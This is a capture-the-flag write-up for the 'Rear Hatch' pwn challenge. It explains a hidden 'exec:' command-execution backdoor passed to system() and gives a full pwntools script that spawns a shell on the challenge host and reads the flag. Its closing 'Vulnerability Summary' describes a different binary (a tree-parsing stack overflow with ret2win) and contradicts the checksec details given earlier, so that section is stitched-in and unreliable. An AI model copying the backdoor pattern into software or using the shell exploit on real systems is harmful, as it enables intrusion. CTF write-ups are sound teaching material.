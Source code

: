 # Rear Hatch - Writeup

---

## Challenge Description

![Alt text](img/1.png)

---

## Exploit Demo

This demo shows the exploitation flow:

![Alt text](gif/RearHatch.gif)

---

## Challenge Summary

You are presented with a command-line program that manages maintenance requests stored in a file. You can add, view, delete, or mark requests as completed.

The vulnerability lies in the `markRequestCompleted()` function. If a request's description starts with the string `exec:`, the program extracts the following string and passes it to `system()`, allowing command execution.

To exploit it, add a new request with the description:

```
exec:/bin/sh
```

Then choose **option 4** to mark that request as completed. This triggers `system("/bin/sh")`, giving the user a shell.

## Binary Information

```bash
$ file RearHatch
```

![Alt text](img/2.png)

```bash
$ pwn checksec RearHatch
```

![Alt text](img/3.png)

---

## Static Analysis (CLion - JetBrains)

Reviewing the source in CLion reveals a hidden command execution path in the `markRequestCompleted()` function:

```c
if (requests[i].id == id &&
    (strncmp((char *)requests + i*264 + 4, "\x65\x78\x65\x63\x3a", 5) == 0 ?
     system((char *)requests + i*264 + 9), 1 : 1))
```

### Key Observations:

- `requests` is an array of structs (`MaintenanceRequest`) each 264 bytes in size.
- The comparison checks if the **description** of a request starts with `"exec:"` using `strncmp`.
- If matched, it calls `system()` on the contents of the description starting just after `"exec:"`.

This introduces a **hidden command injection backdoor**: the program will execute arbitrary shell commands embedded in the description field of a request when marked as completed.

---

## Exploit Strategy

To exploit this backdoored logic, you must:

1. **Add a new maintenance request** with the description starting with `exec:` followed by a shell command — e.g.:

   ```
   exec:/bin/sh
   ```

   This is done via **option 1** (Add Maintenance Request).

2. Then choose **option 4** (Mark Request as Completed), and input the ID of the crafted request.

3. When the condition in `markRequestCompleted()` is met, the program detects the `exec:` prefix and executes the remaining string using `system()` — in this case, spawning a shell.

No memory corruption or complex exploitation is needed — it's a hidden **command execution backdoor** triggered via valid program flow.

## Exploit Code

```python
#!/usr/bin/env python3
# -*- coding: utf-8 -*-
# This exploit template was generated via:
# $ pwn template RearHatch --host kubenode.mctf.io --port 30014
from pwn import *

# Set up pwntools for the correct architecture
exe = context.binary = ELF(args.EXE or 'RearHatch')

# Many built-in settings can be controlled on the command-line and show up
# in "args".  For example, to dump all data sent/received, and disable ASLR
# for all created processes...
# ./exploit.py DEBUG NOASLR
# ./exploit.py GDB HOST=example.com PORT=4141 EXE=/tmp/executable
host = args.HOST or 'kubenode.mctf.io'
port = int(args.PORT or 30014)


def start_local(argv=[], *a, **kw):
    '''Execute the target binary locally'''
    if args.GDB:
        return gdb.debug([exe.path] + argv, gdbscript=gdbscript, *a, **kw)
    else:
        return process([exe.path] + argv, *a, **kw)

def start_remote(argv=[], *a, **kw):
    '''Connect to the process on the remote host'''
    io = connect(host, port)
    if args.GDB:
        gdb.attach(io, gdbscript=gdbscript)
    return io

def start(argv=[], *a, **kw):
    '''Start the exploit against the target.'''
    if args.LOCAL:
        return start_local(argv, *a, **kw)
    else:
        return start_remote(argv, *a, **kw)

# Specify your GDB script here for debugging
# GDB will be launched if the exploit is run via e.g.
# ./exploit.py GDB
gdbscript = '''
tbreak main
continue
'''.format(**locals())

#===========================================================
#                    EXPLOIT GOES HERE
#===========================================================
# Arch:     amd64-64-little
# RELRO:      Partial RELRO
# Stack:      No canary found
# NX:         NX enabled
# PIE:        PIE enabled
# Stripped:   No

io = start()

# shellcode = asm(shellcraft.sh())
# payload = fit({
#     32: 0xdeadbeef,
#     'iaaa': [1, 2, 'Hello', 3]
# }, length=128)
# io.send(payload)
# flag = io.recv(...)
# log.success(flag)

io.sendline(b'1')
io.sendline(b'exec:/bin/sh')
io.sendline(b'4')
io.recvuntil(b'Enter the ID of the request to mark as completed: ')
io.sendline(b'1')
io.sendline(b'cat flag.txt')
flag = io.recvregex(br'MetaCTF{.*?}')
log.success(f"FLAG : \033[1;33m{flag.decode()}\033[1;0m")




```

---

## Exploit Output

![Alt text](img/6.png)

---

## Vulnerability Summary

The binary parses strings representing binary trees and stores them in a stack-allocated array. It calculates the required buffer size by counting the number of nodes and assuming the tree is fully balanced. However, this logic fails when the tree is **deep and sparse** (e.g., having only right children), where the **depth exceeds the allocated array size**.

As a result, during deserialization, the program writes **beyond the bounds of the stack buffer**, causing a **stack-based buffer overflow**. Because the stack layout places the return address near the end of the array, carefully crafted input can be used to **partially overwrite the return address**. Although stack canaries are present and **ASLR is enabled**, the attacker leverages:

- **A hidden `debug_shell()` function** (ret2win-style exploitation).
- **Partial return address overwrite** (only lower 2 bytes needed).
- **Brute-force guessing** (\~16 tries on average due to 4 bits of entropy).

This leads to reliable control of execution flow and ultimately a shell, allowing retrieval of the flag.

---

## Flag

```
MetaCTF{0h_chr1stm4s_tr33_h0w_l0v3ly_4r3_y0ur_br4nch3s}
```
